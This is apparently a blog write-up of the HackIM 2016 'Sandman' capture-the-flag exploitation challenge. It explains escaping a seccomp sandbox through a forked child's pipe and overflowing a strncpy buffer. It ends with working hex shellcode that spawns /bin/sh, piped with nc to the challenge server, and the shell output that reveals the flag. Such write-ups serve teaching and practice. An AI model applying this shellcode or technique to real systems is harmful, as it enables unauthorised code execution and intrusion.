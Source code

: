 ```yaml
---
layout: post
title: HackIM 2016 CTF - Sandman Exploitation 200
category: Exploitation
tags: Exploitation nullcon-hackim
comments: true
---
```


**Points:** 200
**Solves:** 
**Category:** Exploitation
**Description:**

> [Sandman]({{site.url}}/assets/sandman)

# Write-Up

{% highlight text %}
[*] '/Users/user/ctfs/HackIM2016/pwn200/sandman'   
   Arch:          amd64-64-little   
   RELRO:         Partial RELRO   
   Stack Canary:  No canary found   
   NX:            NX disabled   
   PIE:           No PIE   
{% endhighlight %}

So a 64bit binary with all protections disabled.

## Execution flow

1. Create a pipe(pipeFD)
2. fork()
	* What follows next is the execution flow of the parent process, the child takes a different route
	1. read(stdin, bufSize, 4)
	2. mmap(0, bufSize, 0x7, 0x22, 0xffffffff, 0x0) - the size we pass to the previous read() is the size mmap allocates with read/write/execute permissions
	3. read(stdin, newMemoryMapFromMmap, bufSize)
	4. Sandbox the parent with seccomp, the only allowed syscalls are read/write/exit
	5. Jump to the new mmap page and execute our input (I call this the parent shellcode)
* Child execution flow
	1. call 0x0400e2b with argument the created pipe file descriptor  
	2. read(stdin, localBuf, 1)  
	3. call 0x400ddf(localBuf, pipeFD)   
	>> Here in 0x400ddf it compares if the localBuf data we passed is == 0x0e or ( > 1 || =< 0x05 ).   
	>> To reach the vulnerable code we need this to be == 0x0e   
	4. call func 0x400cca  
		4.1. In this function we have a call to read(stdin, localBuf, 4)  
		4.2. calloc(localBuf) - Ok, we control the size of allocated heap buffer  
		4.3. read(pipeFD, callocBufferOnHeap, localBuf)  
		>> So, it looks like control the amount of data to be placed on the heap. The input file descriptor is the previously created pipe().  
	5. Call vulnerable function 0x0400bac(callocBufferOnHeap)  
	6. strncmp(callocBufferOnHeap, "http://", 7) - We need this compare to pass in order to continue  
	7. dataSize = strlen(callocBufferOnHeap)  
		7.1. Here at 0x0400c79 is a jump that I can't take. It takes the jump only if (callocBufferOnHeap+7) > EndOf_callocBufferOnHeap.  
		7.2. size = strlen(callocBufferOnHeap+7)  
		7.3. vulnerable strncpy(localBuffer, callocBufferOnHea+7, size)  

## Gameplan + few failed attempts

To exploit this the plan of action is to build a shellcode on the parent process that writes to the pipe file descriptor. The child process reads from the pipe enough data so it passes all verification checks and overwrites the saved RET in 0x0400bac.

As we control the size to be copied to the local buffer in 0x0400bac, we can just overwrite the RET. The local buffer's size is 0x230 bytes with NX disabled it should be easy right ? Yes but No, even after controlling the RET, first we can only pass a single RET address since strncpy is going to terminate on null bytes. Even after we can jump to any memory address with ASLR on we don't know which address to jump to. I can also tell you that a pointer to the Heap Buffer is in RDI but there are no gadgets to do jump/call RDI.

Another trick that I tried is to use a RET-chain by using the 8 byte address of the vsyscall table we can chain as many RETs as we want. After chaining 9 RET we reach a pointer to our BufferOnHeap+7, we just place shellcode there and viola. However, this method failed for me with SEGFAULT as soon as I tried executing the RET in the vsyscall table. A gadget that does 8 pops + ret would of worked for this method as well, but the only gadget with the closest to this stack pivot is a gadget at 0x401166, that does add rsp, 8, pop x 6, ret, with this we fall short a single pop :(, so we fail again.

And yet another fail for me was to use a gadget that does just 4 pops (or 3 I dont remember at this point) + ret since there we can find a pointer to the beginning of the BufferOnHeap. However, remember to reach the vulnerable code our buffer on the Heap needs to start with "http://" ? All is good, if "http://" converts to some garbage instructions that can easily execute and we can continue with shellcode after that. Yes but no, the 0x2f is a bad opcode, so this is not an option either :/.

# The real exploit

The way I exploited this is to leak the address of the local buffer of 0x0400bac from the parent to the child. Use that address as RET as classic RET-2-buffer exploit and execute any shellcode I want on the child where there is no sandbox. This works because fork() duplicates the entire process's memory space so the parent and child will have the same addresses. After a few calculations I decide to use RSP-0x100 from the parent as the RET address. Here is a table of how the shellcode from the parent to the child needs to look like:

{% highlight text %}
|1byte| 4 bytes Size     | data to pass to the child                       | ret Addr      |
+-----+------------------+-------------------------------------------------+---------------+
 0x0e |\x??\x00\x00\x00  | "http://" + 0x230 bytes of nopsled + shellcode  | RSP - 0x100   |
+-----+------------------+-------------------------------------------------+---------------+
{% endhighlight %}

This payload needs to be build from the parent and written to the pipe. So basically a shellcode writting shellcode :) (Sounds like the matrix "machines building machines", right? :P ).

To do that here is my assembly shellcode that I pass to the parent.

{% highlight text %}
4 byte size of payld| shellcode building sc    | sc write builded sc to pipe | Infinite loop |
--------------------+--------------------------+-----------------------------+---------------+
\xb8\x00\x00\x00    | see screenshot of the sc | see screenshot of sc        | \xeb\xfe      |
--------------------+--------------------------+-----------------------------+---------------+
{% endhighlight %}

Yes, I added an infinite loop so the parent doesnt exit... I probably could of duplicated the socked fd and use it in the child for stdin/stdout but I didn't think too much about this since adding just 2 bytes made everything work for me.

![parent shellcode]({{site.url}}/assets/Screen Shot 2016-01-31 at 3.08.44 PM.png)

## Shellcode in action.

<script type="text/javascript" src="https://asciinema.org/a/35227.js" id="asciicast-35227" data-speed="2" async></script>

{%highlight bash %}
➜  pwn200  (python -c 'print("\xb8\x00\x00\x00\x48\x8d\x9a\x00\x10\x00\x00\x48\xbe\x0e\x60\x02\x00\x00\x68\x74\x74\x48\x89\x33\x48\xbe\x70\x3a\x2f\x2f\x90\x90\x90\x90\x48\x89\x73\x08\x48\x31\xc9\x48\xbe\x90\x90\x90\x90\x90\x90\x90\x90\x48\x83\xc3\x0c\x48\x89\x34\xCB\x48\xff\xc1\x48\x83\xf9\x41\x75\xf3\x48\xbe\x90\x48\x83\xc4\x1e\x31\xc0\x48\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\xff\x48\xf7\xdb\x53\x54\x5f\x99\x48\x89\x34\xCB\x48\xff\xc1\x48\xbe\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x48\x89\x34\xCB\x48\xff\xc1\x48\x8d\xb4\x24\x00\xff\xff\xff\x48\x89\x34\xCB\x48\xff\xc1\x48\x31\xc0\x8b\x45\xd0\x48\x89\xc7\x48\xc7\xc0\x01\x00\x00\x00\x48\x83\xeb\x0c\x48\x89\xde\x48\xc7\xc2\x00\x10\x00\x00\x48\xff\xc7\x0f\x05\xeb\xfe")';cat) | nc -vvv 52.72.171.221 9982

Connection to 52.72.171.221 9982 port [tcp/*] succeeded!
sh: cannot set terminal process group (14781): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.3$ sh-4.3$ echo *
bin dev flag-ooMeeT3iEephei1dAHighae7.txt lib lib64 sandman server.sh usr

sh-4.3$ cat flag-ooMeeT3iEephei1dAHighae7.txt
flag-{br3k1ng-b4d-s4ndm4n}
sh-4.3$

{% endhighlight %}

* Thank you for reading/watching ;)
